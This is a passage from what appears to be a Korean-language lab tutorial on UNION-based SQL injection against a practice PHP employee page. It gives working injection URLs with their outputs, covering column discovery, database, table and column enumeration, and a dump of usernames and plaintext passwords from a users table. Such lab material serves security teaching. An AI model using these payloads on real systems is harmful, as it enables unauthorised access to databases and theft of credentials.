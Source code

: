 4. HTTP 응답에 표시되는 칼럽 파악 
```bash
https://.../sqli_union_ex2.php?emp_no=2+UNION+ALL+SELECT+1,2,3,4,5--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
1	3	4	2
```

5. 데이터베이스 구조 파악
```bash
# DB명
https://.../sqli_union_ex2.php?emp_no=2+UNION+ALL+SELECT+1,2,database(),4,5--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
1	mydb	4	2

# 테이블명
https://.../sqli_union_ex2.php?emp_no=2+UNION+ALL+SELECT+1,2,group_concat(table_name),4,5+FROM+information_schema.TABLES+WHERE+table_schema=database()--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
1	board,employees,products,users	4	2
# 컬럼명
https://.../sqli_union_ex2.php?emp_no=2+UNION+ALL+SELECT+1,2,group_concat(column_name),4,5+FROM+information_schema.COLUMNS+WHERE+table_schema=database()+AND+table_name=%27users%27--+

Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
1	user_sn,user_id,user_name,password,join_date,birth_date,gender,email	4	2
```

6. 데이터 추출
```bash
https://.../sqli_union_ex2.php?emp_no=2+UNION+ALL+SELECT+1,2,group_concat(concat(user_id,0x3a,password)),4,5+FROM+mydb.users--+


Employee Info
No	Name	Gender	Birthday
2	Jet Black	M	1974-11-16
1	admin:pass,spike:ilovejulia,faye:oldwoman,jet:bebopismine	4	2

spike:ilovejulia
```

